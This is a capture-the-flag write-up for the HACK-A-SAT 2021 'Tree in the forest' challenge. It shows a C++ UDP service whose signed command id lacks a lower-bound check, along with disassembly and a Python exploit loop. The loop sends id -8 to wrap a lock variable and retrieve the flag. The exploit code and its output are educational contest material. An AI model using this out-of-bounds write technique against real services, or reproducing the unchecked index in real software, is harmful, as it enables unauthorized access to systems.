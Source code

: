 # HACK-A-SAT 2021: Tree in the forest

* **Category:** Rapid Unplanned Disassembly
* **Points:** 31
* **Solves:** 155
* **Description:**

```makefile
CC=g++-9.3.0

challenge: src/parser.c
    $(CC) src/parser.c -o $@
```

> Connect to the challenge on: lucky-tree.satellitesabove.me:5008
> Using netcat, you might run: nc lucky-tree.satellitesabove.me 5008
> You'll need these files to solve the challenge.
> https://static.2021.hackasat.com/vca80g4d8hvxhpvebfh4ug3ntgck


## Write-up

_Write-up by Solar Wine team_

We are given a single C++ file, implementing an UDP service handling packets with a simple format:

```cpp
typedef struct command_header{
	short version : 16;
	short type : 16;
	command_id_type id : 32;
} command_header;
```

A few commands are defined, but only `COMMAND_GETKEYS` is implemented in`handle_message`:

```cpp
#define COMMAND_LIST_LENGTH 10
typedef enum command_id_type {
	COMMAND_ADCS_ON = 		0,
	COMMAND_ADCS_OFF =		1,
	COMMAND_CNDH_ON =		2,
	COMMAND_CNDH_OFF =		3,
	COMMAND_SPM =			4,
	COMMAND_EPM =			5,
	COMMAND_RCM =			6,
	COMMAND_DCM =			7,
	COMMAND_TTEST =			8,
	COMMAND_GETKEYS =		9, // only allowed in unlocked state
} command_id_type;
// [...]
const char* handle_message(command_header* header){
	command_id_type id = header->id;
	// Based on the current state, do something for each command
	switch(lock_state){
		case UNLOCKED:
			if (id == COMMAND_GETKEYS)
				return std::getenv("FLAG");
			else
				return "Command Success: UNLOCKED";
		default:
			if (id == COMMAND_GETKEYS)
				return "Command Failed: LOCKED";
			else
				return "Command Success: LOCKED";
	}
// [...]
```

We need to find a way to pass in the `UNLOCKED` state, but there isn't any command to do it. 

Service's state is stored in two global variables, `lock_state` (a boolean stored as an integer, `UNLOCKED` is `0` and 
`LOCKED` is `1`) and `command_log`:

```cpp
unsigned int lock_state;
char command_log[COMMAND_LIST_LENGTH];
```

Every time a message is handled, the associated entry of this second global variable (`command_log`) is incremented:

```cpp
int n;
len = sizeof(cliaddr);

n = recvfrom(sockfd, (char *)buffer, sizeof(command_header), MSG_WAITALL, (struct sockaddr *)&cliaddr, &len);

if (n != sizeof(command_header)){ // this should never happen, due to UDP
    response << "Invalid length of command header, expected "<<sizeof(command_header)<<" but got "<<n<<std::endl;
} else { 
    command_header* header = (command_header*)buffer;
    response<<"Command header acknowledge: version:"<<header->version<<" type:"<<header->type<<" id:"<<header->id<<std::endl;

    if (header->id >= COMMAND_LIST_LENGTH){
        response<<"Invalid id:"<<header->id<<std::endl;
    } else {

        // Log the message in the command log
        command_log[header->id]++;

        // Handle the message, return the response
        response<<handle_message(header)<<std::endl;

    }
```

While the upper bound of `header->id` is correctly validated, there is no check on the lower bound of this signed field:

```c
001028bb               MOV        pbVar4,qword ptr [RBP + header]
001028c2               MOV        pbVar4,dword ptr [pbVar4 + 0x4]
001028c5               MOV        EDX,pbVar4
001028c7               MOVSXD     pbVar4,EDX
001028ca               LEA        RCX,[command_log]                                
001028d1               MOVZX      pbVar4,byte ptr [pbVar4 + RCX*0x1]=>command_log  
001028d5               ADD        pbVar4,0x1
001028d8               MOV        ECX,pbVar4
001028da               MOVSXD     pbVar4,EDX
001028dd               LEA        RDX,[command_log]                                
```

By repeatedly passing a negative value in `header->id` (`-8`) in a way it will increment `lock_state` instead of a `command_log` entry, 
`lock_state` will end up wrapping to `0` and put us in `UNLOCKED` state, finally enabling `COMMAND_GETKEYS` to get the flag:

```python
payload = struct.pack('hhi', 1, 1, -8)
for i in range(0, 255):
    s.sendto(payload, (service[0], int(service[1])))
    res = s.recvfrom(1024)
    print(i, res)
    if b'UNLOCKED' in res[0]:
        payload = struct.pack('hhi', 1, 1, COMMAND_GETKEYS)
        s.sendto(payload, (service[0], int(service[1])))
        print(s.recvfrom(1024))
```

```
0 (b'Command header acknowledge: version:1 type:1 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 28255))
1 (b'Command header acknowledge: version:1 type:1 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 28255))
2 (b'Command header acknowledge: version:1 type:1 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 28255))
[...]
253 (b'Command header acknowledge: version:1 type:1 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 28255))
254 (b'Command header acknowledge: version:1 type:1 id:-8\nCommand Success: UNLOCKED\n', ('18.118.161.198', 28255))
(b'Command header acknowledge: version:1 type:1 id:9\nflag{delta58516uniform2:GNLQQz1GwG3QNKO4ilOSFbN8rR0SP5VGn34ViuQbwVTcXvqSsAQwiK6Tl8CaoMu9FXkAPSblhoDZrFGeWnO84zU}\n', ('18.118.161.198', 28255))
```
